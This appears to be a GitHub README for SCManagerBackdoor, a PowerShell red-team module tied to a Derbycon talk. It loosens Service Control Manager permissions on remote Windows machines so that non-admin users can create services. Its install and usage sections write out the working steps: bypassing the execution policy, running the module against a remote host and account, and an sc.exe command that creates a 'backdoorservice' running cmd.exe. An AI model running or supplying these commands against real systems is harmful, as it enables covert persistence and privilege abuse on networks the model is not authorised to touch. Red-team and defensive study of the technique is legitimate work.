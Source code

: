 # SCManagerBackdoor
SCManagerBackdoor Script as described in An ACE in the Hole talk Derbycon7
Sets permissions on SCManager on remote computers so that non-admin users can create a backdoor service. Can be used to Backdooring a remote computer.
Will Require local administrator rights on remote computer to backdoor SCManager

# Install
Set-ExecutionPolicy Bypass
Import-Module Set-SCManagerBackdoor

# Usage
Set-SCManagerBackdoor -RemoteComputer "IP\remotecomp.domain.com" -Username "domain\myusername"

sc.exe \\\\Remote-Computer create backdoorservice binpath= C:\Windows\system32\cmd.exe

# ToDo
MayBe Add functionality add service as well with Delete privileges
https://msdn.microsoft.com/en-us/library/windows/desktop/ms685981(v=vs.85).aspx#access_rights_for_the_service_control_manager

# Credits
@harmj0y
@wald0
@vysec
